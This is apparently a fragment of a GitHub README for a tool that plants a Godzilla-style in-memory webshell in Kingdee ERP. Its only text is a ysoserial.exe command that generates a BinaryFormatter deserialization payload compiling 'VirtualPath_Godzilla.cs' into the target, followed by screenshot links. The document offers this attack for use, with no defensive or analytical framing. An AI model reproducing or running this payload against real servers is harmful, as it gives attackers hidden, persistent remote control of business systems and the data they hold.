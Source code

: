 `.\ysoserial.exe -f BinaryFormatter -g ActivitySurrogateSelectorFromFile -c "VirtualPath_Godzilla.cs;System.Web.dll;System.dll"`

<img width="1149" alt="image" src="https://github.com/bcvgh/Kingdee_erp_MemShell/assets/56790427/3c153a63-446b-4145-b0b4-6201ad5d08a7">

<img width="1273" alt="image" src="https://github.com/bcvgh/Kingdee_erp_MemShell/assets/56790427/2dbd9a2b-1584-4c11-8d6a-92f8d6f1aa0d">


<img width="494" alt="image" src="https://github.com/bcvgh/Kingdee_erp_MemShell/assets/56790427/1dce3770-af08-462d-b9b5-de55591206ab">




